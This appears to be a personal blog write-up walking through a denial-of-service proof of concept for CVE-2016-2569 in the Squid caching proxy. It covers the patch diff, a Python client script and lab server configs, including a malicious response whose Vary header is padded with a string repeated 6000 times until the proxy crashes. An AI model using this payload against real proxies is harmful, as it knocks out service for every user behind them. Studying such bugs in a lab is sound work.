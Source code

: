 Hello there,

Thank you for reading my first blog entry. Today we will go with exploit creation for one of the open-source tool Squid Caching proxy server.

#### So What Is Squido?

Squid is a caching proxy for the Web supporting HTTP, HTTPS, FTP, and more. It reduces bandwidth and improves response times by caching and reusing frequently-requested web pages. Squid has extensive access controls and makes a great server accelerator. It runs on most available operating systems, including Windows and is licensed under the GNU GPL. You can find more about Squid Cahching proxy at their official website [http://www.squid-cache.org/]

#### What Is CVE-2016-2569?

Fistly I hope you know you know what is CVE :p Anyways it stands for  Common Vulnerabilities and Exposures (More info about CVE can be found at [https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures])

We can see the following information about CVE-2016-2569

Description: Squid 3.x before 3.5.15 and 4.x before 4.0.7 does not properly append data to String objects, which allows remote servers to cause a denial of service (assertion failure and daemon exit) via a long string, as demonstrated by a crafted HTTP Vary header. Mathias Fischer from Open Systems AG reported this vulnerability.

#### Vulnerability Analysis

As this is open-source project we can see the patch used in order to mitigate this vulnerability. Based on the vulnerability description provided we can confirm that this is some sort of overflow attempt. We will continue to dig deeper in to the source to investigate further.

The patch [http://www.squid-cache.org/Versions/v3/3.5/changesets/squid-3.5-13991.patch] confirms changes were made to following files
1. src/SquidString.h
2. src/StrList.cc
3. src/String.cc
4. src/clients/Client.h
5. src/clients/FtpClient.cc
6. src/http.cc

Lets dig deeper....

Code diff for src/String.cc looks interesting as it makes assertion for aSize variable

----------------------------------------------------------------------
```
=== modified file 'src/String.cc'
--- src/String.cc	2016-01-01 00:14:27 +0000
+++ src/String.cc	2016-02-19 23:15:41 +0000
@@ -42,7 +42,7 @@
 String::setBuffer(char *aBuf, String::size_type aSize)
 {
     assert(undefined());
-    assert(aSize < 65536);
+    assert(aSize <= SizeMax_);
     buf_ = aBuf;
     size_ = aSize;
 }
@@ -171,7 +171,7 @@
     } else {
         // Create a temporary string and absorb it later.
         String snew;
-        assert(len_ + len < 65536); // otherwise snew.len_ overflows below
+        assert(canGrowBy(len)); // otherwise snew.len_ may overflow below
         snew.len_ = len_ + len;
         snew.allocBuffer(snew.len_ + 1);
```
----------------------------------------------------------------------

Based on the above code diff we can try to make an attempt to exploit the vulnerability by providing the value of the vary header to be more than 65536 bytes. 

Lets begin by creating the our exploit setup

We will set up the Squid Caching proxy on Linux system (We will use Xubuntu 16.04 LTS). The Squid caching proxy chaches the metanet HTTP server responses and send the responses to client from memory cache than quering server for similar request.

Our network topology would look something like shown below (Sorry for the being old school with topology but I'm still so in love with VIM)

```
-------------------------          -------------------------          -------------------------
|                       |          |                       |          |                       |
|         metanet       |  ---->   |         Squid         |  ----->  |         Client        |
|     192.168.56.102    |          |     Caching Proxy     |          |     192.168.56.1      |
|       HTTP Server     |  <----   |     TCP Port 3128     |  <----   |     Python Requests   |
|                       |          |                       |          |                       |
-------------------------          -------------------------          -------------------------
```

We will send standard queries to our nginx HTTP server via Squid proxy and check logs to figure out the setup is working as expected. 

To make our life easier we will use following python script to send the request to the server. One important thing to note here the headers used in the request allow the proxy server to cache the response. If the values of the HTTP request headers "If-Modified-Since", "max-age", and "cache-control" are not proper the client request would force the proxy server to query the server for responses. This would defeat the purpose of proxy server completely.

----------------------------------------------------------------------
```
Request.py

#!/usr/bin/env python

import requests, os

proxy = {'http': '192.168.56.102:3128'}
headers = {'If-Modified-Since': 'Wed, 24 Jan 2018 13:58:1 GMT', 'Accept': '*', 'max-age': '20000', 'cache-control': 'public', 'connetction': 'keep-alive', 'user-agent': 'requests2'}

if len(os.sys.argv) != 2:
    print "Usage: req [URI]"
    os.sys.exit()

print '\nhttp://192.168.56.102:8080/{}'.format(os.sys.argv[1])

r = requests.get('http://192.168.56.102:8080/{}'.format(os.sys.argv[1]), proxies=proxy, headers=headers)

print "\nHTTP Stat Code --> ", r.status_code

print
 
print "HTTP Response Headers \n", 
for h in r.headers:
    print h, ": ", r.headers[h] 
print

if 'Vary' in r.headers:
    print "Vary: ", r.headers['Vary'], "\n"
```
----------------------------------------------------------------------

We can see the above python code is setting headers, proxy and using python requests library to send the request to the HTTP server located at 192.168.56.102. Once we have the response from server or proxy we are printing out the headers. Specially we are interested in the Vary header response sent by the HTTP server or the proxy server.

Next thing in our setup is setting up metanet (HTTP server). We will use metanet because it is easy to send different HTTP response headers easily. As an alternative we can use SimpleHTTPServer which also allows us to send custom HTTP responses.

We need to prepare metanet config file in such a way that it responds with Vary header along with the necessary header which allow the Squid Caching proxy to cache the similar responses in the memory.

Our metanet config would look something like this

----------------------------------------------------------------------
```
[tcp/8080]

             "GET / " -> "HTTP/1.1 200 OK\r\n\r\n<html><body style=\"background-color: #000000; color: #FFFFFF\">Artificial Intelligence is no match for natural stupidity :p</html>\n",close()
                      * -> "HTTP/1.1 200 OK\r\nServer: metanet\r\nmax-age: 0\r\nDate: Thu, 26 Jan 2018 16:25:22 GMT\r\nLast-Modified: Thu, 1 Feb 2018 13:58:11 GMT\r\nVary:NULL\r\nConnection:keep-alive\r\n\r\n<html><body>Wut????</body></html>",close()
```
----------------------------------------------------------------------

Let's give it a try to see our setup indeed works!

![Squid Caching Proxy Setup](https://github.com/amit-raut/CVE-2016-2569/raw/master/Squid-Caching-Proxy-Setup.png "Squid Caching Proxy Setup")

Based on the our config everything looks in good shape. w00t w00t!

#### Exploitation

Lets make an effort to exploit vulnerability (passing long string based buffer along with HTTP Vary Response header). This is simple overflow exploitation. From the code diff we can see that there is assertion which defined the value of the a_size should not exceen 65536. We provide the length of the Vary header to be something that long.

Ideally we do not have 65536 standard HTTP Response headers (that would have been such a mess 😛); but we can make up headers. Just the thing matters in this case is the length of the string passed to the Vary header.

Lets use python to generate looong string like python -c 'print "a,b,c,d,e,f," *6000'. We will use this output and modify our metanet config like below and test our exploit

Our metanet config would look something like this

----------------------------------------------------------------------
```
[tcp/8080]

             "GET / " -> "HTTP/1.1 200 OK\r\n\r\n<html><body style=\"background-color: #000000; color: #FFFFFF\">Artificial Intelligence is no match for natural stupidity :p</html>\n",close()
                      * -> "HTTP/1.1 200 OK\r\nServer: metanet\r\nmax-age: 0\r\nDate: Thu, 26 Jan 2018 16:25:22 GMT\r\nLast-Modified: Thu, 1 Feb 2018 13:58:11 GMT\r\nVary:`a,b,c,d,e,f,`<reapeated 6000 times>"\r\nConnection:keep-alive\r\n\r\n<html><body>Wut????</body></html>",close()
```
----------------------------------------------------------------------

When we send our first request to proxy everything seems to be normal. The proxy didn't seem to be caching the responses; maybe because of the values we provided in the Vary header field. The response headers specified in the Vary header are taken in calculating the md5 sum to verify the cached contents.

Lets keep on sending multiple request to the proxy. Something is wrong here the proxy is not responding to our requests as we are getting "Proxy Error" from requeests library. Lets continue to send requests anyways.

Alas. The proxy stopped because of frequent failures. No device connecting to the server via proxy would be able to access anything. This is Denial of Service for all the proxy users. 

![Squid Proxy Exploitation using long Vary Header](https://github.com/amit-raut/CVE-2016-2569/blob/master/Squid-Caching-Proxy-Exploitation.png "Squid Proxy Exploitation using long Vary Header")

